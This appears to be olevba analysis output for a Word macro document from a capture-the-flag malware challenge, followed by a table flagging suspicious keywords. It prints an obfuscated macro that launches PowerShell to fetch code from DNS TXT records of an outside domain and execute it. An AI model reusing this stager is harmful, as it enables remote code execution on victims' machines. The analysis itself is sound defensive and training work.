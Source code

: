 ```
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Function dgfbhsrjtyghsfgbn(betrhyhzdfgbvfadgh() As Byte, tgdrhnatrhathgdf As Long) As Boolean
    Dim drtgvhsrtghgfhng As Byte
    drtgvhsrtghgfhng = 127
    For i = 0 To tgdrhnatrhathgdf - 1
        betrhyhzdfgbvfadgh(i) = betrhyhzdfgbvfadgh(i) Xor drtgvhsrtghgfhng
        drtgvhsrtghgfhng = ((drtgvhsrtghgfhng + 5) Xor 105)
    Next i
    drtgvhsrtghgfhng = True
End Function

Function flagpart()
    Dim bnirujwtnbiwrbn(12) As Byte
    bnirujwtnbiwrbn(0) = 42
    bnirujwtnbiwrbn(1) = 160
    bnirujwtnbiwrbn(2) = 218
    bnirujwtnbiwrbn(3) = 154
    bnirujwtnbiwrbn(4) = 244
    bnirujwtnbiwrbn(5) = 190
    bnirujwtnbiwrbn(6) = 212
    bnirujwtnbiwrbn(7) = 137
    bnirujwtnbiwrbn(8) = 152
    bnirujwtnbiwrbn(9) = 130
    bnirujwtnbiwrbn(10) = 186
    bnirujwtnbiwrbn(11) = 138
    flagpart = dgfbhsrjtyghsfgbn(bnirujwtnbiwrbn(), 12)
End Function


Sub formuoli()
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run ("powershell.exe IEX([Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('JGI2NCA9ICIiDQoNCmZvciAoJGk9MTskaSAtbGUgNzskaSsrKSB7DQogICAgJHRlbXAgPSAobnNsb29rdXAgLXE9dHh0IC10aW1lb3V0PTMgJGknLmFtZXJpY2FudmVndGFibGVzLmNvbScpWy0xXSAtcmVwbGFjZSAnIicsJycgLXJlcGxhY2UgJ1xzJywnJw0KICAgICRiNjQgKz0gJHRlbXANCn07DQoNCiMgX2QwY01fNTdpTExfDQoNCmlleChbU3lzdGVtLlRleHQuRW5jb2RpbmddOjpBU0NJSS5HZXRTdHJpbmcoW1N5c3RlbS5Db252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygoJGI2NCkpKSk=')))")
End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Wscript.Shell       |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Run                 |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|powershell          |May run PowerShell commands                  |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Xor                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |powershell.exe      |Executable file name                         |
```